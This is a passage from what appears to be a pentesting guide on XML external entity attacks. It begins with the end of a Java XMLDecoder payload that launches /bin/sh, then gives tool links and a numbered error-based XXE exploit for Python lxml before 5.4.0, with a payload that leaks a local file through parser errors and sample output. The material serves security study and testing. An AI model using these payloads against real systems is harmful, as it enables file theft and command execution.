 ```xml
         <string>-e</string>
      </void>
      <void index="5">
         <string>/bin/sh</string>
      </void>
    </array>
    <void method="start" id="process">
    </void>
  </void>
</java>
```

## XXE + WrapWrap + Lightyear + bypasses

Take a look to this amazing report [https://swarm.ptsecurity.com/impossible-xxe-in-php/](https://swarm.ptsecurity.com/impossible-xxe-in-php/)

## Tools

{{#ref}}
https://github.com/luisfontes19/xxexploiter
{{#endref}}

### Python lxml Parameter-Entity XXE (Error-Based File Disclosure)

> [!INFO]
> The Python library **lxml** uses **libxml2** under the hood.  Versions prior to **lxml 5.4.0 / libxml2 2.13.8** still expand *parameter* entities even when `resolve_entities=False`, making them reachable when the application enables `load_dtd=True` and/or `resolve_entities=True`.  This allows Error-Based XXE payloads that embed the contents of local files into the parser error message.

#### 1. Exploiting lxml < 5.4.0
1. Identify or create a *local* DTD on disk that defines an **undefined** parameter entity (e.g. `%config_hex;`).
2. Craft an internal DTD that:
   * Loads the local DTD with `<!ENTITY % local_dtd SYSTEM "file:///tmp/xml/config.dtd">`.
   * Redefines the undefined entity so that it:
     - Reads the target file (`<!ENTITY % flag SYSTEM "file:///tmp/flag.txt">`).
     - Builds another parameter entity that refers to an **invalid path** containing the `%flag;` value and triggers a parser error (`<!ENTITY % eval "<!ENTITY % error SYSTEM 'file:///aaa/%flag;'>">`).
3. Finally expand `%local_dtd;` and `%eval;` so that the parser encounters `%error;`, fails to open `/aaa/<FLAG>` and leaks the flag inside the thrown exception – which is often returned to the user by the application.

```xml
<!DOCTYPE colors [
  <!ENTITY % local_dtd SYSTEM "file:///tmp/xml/config.dtd">
  <!ENTITY % config_hex '
    <!ENTITY % flag SYSTEM "file:///tmp/flag.txt">
    <!ENTITY % eval "<!ENTITY % error SYSTEM 'file:///aaa/%flag;'>">
  %eval;'>
  %local_dtd;
]>
```
When the application prints the exception the response contains:
```
Error : failed to load external entity "file:///aaa/FLAG{secret}"
```
